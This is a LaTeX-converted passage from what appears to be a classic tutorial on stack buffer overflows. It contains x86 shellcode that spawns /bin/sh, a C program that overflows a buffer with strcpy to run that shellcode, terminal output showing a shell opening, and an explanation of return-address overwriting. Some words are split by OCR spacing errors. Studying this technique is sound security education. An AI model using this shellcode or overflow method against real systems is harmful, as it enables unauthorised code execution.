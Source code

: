 \documentclass[10pt]{article}
\begin{document}
{\begin{lstlisting}[caption=testsc2.c,basicstyle=\tiny]
void main() 
{
   int *ret;
   ret = (int *)&ret + 2;
   (*ret) = (int)shellcode;
}
\end{lstlisting}

\begin{verbatim}
[aleph1]$ gcc -o testsc2 testsc2.c
[aleph1]$ ./testsc2
$ exit
[aleph1]$
\end{verbatim}

\section{Writing an Exploit}

Lets try to pull all our pieces together. We have the shellcode. We know it must be part of the string which 
we'll use to overflow the buffer. We know we must point the return address back into the buffer. This example 
will demonstrate these points:

\begin{lstlisting}[caption=overflow1.c,basicstyle=\tiny]

char shellcode[] =
"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
"\x80\xe8\xdc\xff\xff\xff/bin/sh";

char large_string[128];

void main() 
{
  char buffer[96];
  int i;
  long *long_ptr = (long *) large_string;

  for (i = 0; i < 32; i++)
    *(long_ptr + i) = (int) buffer;  

  for (i = 0; i < strlen(shellcode); i++)
    large_string[i] = shellcode[i];

  strcpy(buffer,large_string);
}
\end{lstlisting}

\begin{verbatim}
[aleph1]$ gcc -o exploit1 exploit1.c
[aleph1]$ ./exploit1
$ exit
exit
[aleph1]$
\end{verbatim}

What we have done above is filled the array \verb+large_string[]+ with the address of buffer[], which is where our code 
will be. Then we copy our shellcode into the beginning of the \verb+large_string+ string. strcpy() will then copy 
\verb+large_string+ onto buffer without doing any bounds checking, and wil l overflow the return address, overwriting it 
with the address where our code  is now located.  Once we reach the end of main and it tr ied to return it jumps to 
our code, and execs a shell. The problem we are faced when trying to overflow the buffer of another program is 
trying to figure out at what address the buffer (and thus our code) will be. The answer is that for every program 
the stack will start at the same addres s. Most programs do not push more than a few hundred or a few thousand 
bytes into the stack at any one time. Therefore by knowing where  the stack starts we can try to guess where  the 
buffer we are trying to overflow will be. Here is a little program that will print its stack pointer: 


}
\end{document}
